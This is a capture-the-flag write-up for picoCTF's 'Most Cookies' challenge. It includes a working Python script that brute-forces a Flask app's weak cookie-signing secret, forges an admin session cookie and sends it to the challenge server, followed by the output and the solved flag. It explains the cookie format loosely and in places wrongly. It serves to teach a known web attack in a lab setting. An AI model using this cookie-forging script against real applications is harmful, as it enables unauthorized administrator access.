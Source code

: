 # Most Cookies
This challenge was not as straightforward as the previous one, so it was quite fun.

First we get `Cookie session` once we check burp suite which in my case turned out to be 

![image](https://github.com/user-attachments/assets/2cc66265-55d7-4642-9c88-a416d5fa5a6b)


`eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zy-RDg.AFb3td31Sd0GuGQ_mMgOcWA5Vpk` when we decode this using Base64 
we get `{"very_auth": "admin"}`. This basically indicates that we need to get `admin` level access.

Now one thing to keep in mind is `Zy-RDg`, this is the part of the cookie which verifies the authenticity 
using a secret key and only with the correct secret key we will be able to proceed.

Now to modify the session cookie, we first need to know the possible cookie names which we get from `server.py`
So, to simultaneously iterate through each possible key while also decoding the session cookie, 
and avoid getting the `BadTimeSignature` error, we use a script

```
import requests
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer

def flask_cookie(secret_key, cookie_str, operation):
    """
    This function is a simplified version of the SecureCookieSessionInterface to decode or encode
    Flask cookies using a specific secret key.
    """
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

# List of possible secret keys used by the app (flask's default ones)
possible_keys = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", 
    "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", 
    "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", 
    "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", 
    "white chocolate macadamia"
]

# The session cookie you obtained from the response
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zy-CUQ.ENB95ZonquaCPOx3F_B0iuF6Sg4"

# Try to decode the cookie with each possible key
for possible_secret_key in possible_keys:
    try:
        # Try to decode the session cookie
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
        print(f"Successfully decoded with key: {possible_secret_key}")
        secret_key = possible_secret_key
        print(f"Decoded cookie: {cookie_decoded}")
        break  # Once we find the correct key, stop
    except BadTimeSignature:
        # If decoding fails, continue with the next possible key
        continue

# Once the correct secret key is found, encode the admin cookie
if 'secret_key' in locals():
    admin_cookie = {"very_auth": "admin"}
    admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")
    print(f"Encoded Admin Cookie: {admin_cookie_encoded}")

    # Send a POST request with the encoded admin cookie to access the flag
    url = "http://mercury.picoctf.net:18835/"
    flag_response = requests.get(url, cookies={"session": admin_cookie_encoded})
    print(f"Flag Page Response: {flag_response.text}")
else:
    print("Failed to decode the session cookie. Please check if the correct secret key is in the list.")
```

And here is the following output that we get:
```
Successfully decoded with key: fortune
Decoded cookie: {'very_auth': 'blank'}
Encoded Admin Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zy-RDg.AFb3td31Sd0GuGQ_mMgOcWA5Vpk
```
Now that we have the Encoded session cookie, we get back to burp suite to change `Cookie session` to `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zy-RDg.AFb3td31Sd0GuGQ_mMgOcWA5Vpk`

And thus we get the flag 
__Flag__: `picoCTF{pwn_4ll_th3_cook1E5_743c20eb}`

![image](https://github.com/user-attachments/assets/e36ad3c4-8d4b-482a-a836-2c323dc237b3)
